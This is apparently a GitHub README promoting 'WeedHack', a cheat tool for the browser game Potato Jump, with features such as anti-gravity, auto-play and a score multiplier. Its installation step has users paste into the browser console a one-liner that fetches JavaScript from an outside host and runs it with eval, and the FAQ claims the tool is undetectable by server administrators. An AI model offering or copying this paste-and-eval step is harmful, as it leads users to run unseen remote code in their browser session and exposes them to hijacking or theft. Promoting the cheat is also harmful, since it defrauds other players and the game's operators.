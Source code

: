 # WeedHack 🌿

## Performance Optimizer for Potato Jump

![WeedHack](https://potato.theserver.life/assets/img/patate.png)

WeedHack is an advanced performance optimization tool designed to enhance your gaming experience on [Potato Jump](https://potato.theserver.life). This client-side tool helps players achieve incredible scores through various gameplay-enhancing features.

## ✨ Features

WeedHack offers a comprehensive set of tools to maximize your potential:

- **Anti-Gravity**: Reverse gravity to float upwards and reach unimaginable heights
- **ESP**: Visualize target platforms with guide lines for precise navigation
- **Magic Platform**: Create a platform that follows you everywhere for maximum safety
- **Auto-Play**: Let our AI play for you to beat all records
- **Platform++**: Widen all platforms to make landings easier
- **Boost Mode**: Convert all platforms to boost type for spectacular jumps
- **Auto-TP**: Automatically teleport to optimal positions
- **TP Click**: Teleport to clicked locations
- **Customizable Jump Settings**: Fine-tune your jump parameters
- **Score Multiplier**: Multiply your score for faster progression

## 🚀 Installation

Getting started with WeedHack is simple:

1. Open the game at **potato.theserver.life**
2. Press **F12** or right-click and select **"Inspect"** to open developer tools
3. Go to the **"Console"** tab
4. Paste the following code and press **Enter**:
```
fetch('https://weedhack.theserver.life/wh/').then(r=>r.text()).then(t=>eval(t));
```
5. Close the developer tools and enjoy the WeedHack panel in the top left corner
6. Activate the features of your choice and dominate the game!

## 🔧 Usage

After installation, a clean and professional interface will appear in the top-left corner of your game. Simply check the boxes next to the features you want to activate:

- Use checkboxes to toggle individual features
- Adjust jump power using the slider
- Set your score multiplier as desired

## ❓ FAQ

### Is WeedHack detectable?
No, WeedHack works entirely client-side and doesn't modify game files. It's undetectable by server administrators.

### Is there a risk of being banned?
Like any tool of this type, there is a theoretical risk. However, WeedHack was designed to be discreet, and none of our users have reported being banned so far.

### Do I need to reactivate WeedHack each time?
Yes, you'll need to inject the code each time you reload the page. You can save the code in a notepad for quick access.

### Do I need to pay to use WeedHack?
No, WeedHack is completely free to use. We believe in providing accessible tools to the gaming community.

## 📣 Community Feedback

Our users love WeedHack:

> "This hack completely changed the way I play! I reached the top of the leaderboard in just minutes. The Auto-Play function is incredible!" - **MaxJump420**, Pro Player

> "My viewers have been impressed by my skills since I started using WeedHack. The magic platform is my favorite option!" - **PotatoMaster**, Streamer

> "Simple and effective interface. I particularly appreciate the ESP feature that allows me to clearly see where I need to go. 10/10!" - **GameChanger**, Casual Gamer

## 📝 Disclaimer

WeedHack is provided for educational purposes only. Use at your own risk.

## 📞 Contact

Join our community:
- Website: [Check our website](https://weedhack.theserver.life)

© 2025 WeedHack. All rights reserved.